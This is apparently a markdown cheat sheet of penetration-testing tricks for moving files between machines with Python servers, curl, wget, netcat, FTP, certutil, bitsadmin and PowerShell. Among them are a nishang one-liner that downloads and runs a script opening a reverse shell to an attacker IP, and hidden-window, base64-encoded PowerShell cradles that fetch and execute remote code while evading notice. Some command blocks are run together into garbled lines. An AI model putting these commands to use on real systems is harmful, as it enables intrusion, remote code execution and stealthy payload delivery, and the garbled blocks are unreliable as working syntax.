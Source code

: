# Tricks to transfer files between boxes
## Hosting files
Python3
```
python3 -m http.server 80
```
python2
```
python2 -m SimpleHTTPServer 80
```

## Linux
#### Grab over http
```
curl http://IP/PORT/linpeas.sh -o mylin.sh; chmod +x mylin
```
```
wget http://IP/PORT/linpeas.sh
```
```

```
#### transfer with nc
Listener
```
nc -lvnp 1337 > file.txt
```
Sender
```
nc -w3 IP PORT < file.txt
```
#### transfer over FTP
Listener
```
python3 -m pyftpdlib -p 21 -u jeenali -P 123
```
Sender/reciever
```
ftp IP

get file

put file
```

## Windows
Certutil
```
certutil -urlcache -split -f http://IP/putty.exe putty.exe
```
Bitsadmin
```
bitsadmin /transfer job https://IP/putty.exe C:\Temp\putty.exe
```
wget
```
wget http://IP/putty.exe -OutFile putty.exe
```
Powershell
nishang
```
powershell iex (New-Object Net.WebClient).DownloadString('http://<yourwebserver>/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress [IP] -Port [PortNo.]
```
```
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://IP/putty.exe', 'putty.exe')
```
```
Invoke-WebRequest "https://example.com/archive.zip" -OutFile "C:\Windows\Temp\archive.zip"  
```
```
powershell.exe -w hidden -command $wc = New-Object System.Net.Webclient; $wc.Headers.Add('User-Agent','Mozilla/5.0 (Windows NT 6.1; WOW64;Trident/7.0; AS; rv:11.0) Like Gecko'); $wc.proxy= [System.Net.WebRequest]::DefaultWebProxy; $wc.proxy.credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials; $wc.downloadstring('http://google.com/') Encoded Web Request echo -n "IEX(New-Object Net.WebClient).downloadString('http://site.com/script.js')" | iconv -t UTF-16LE | base64 -w 0 powershell -w hidden -nop -enc <ENC_COMMAND_DATA>
```
```
echo -n "IEX(New-Object Net.WebClient).downloadString('http://site.com/script.js')" | iconv -t UTF-16LE | base64 -w 0 powershell -w hidden -nop -enc <ENC_COMMAND_DATA>
```
```

```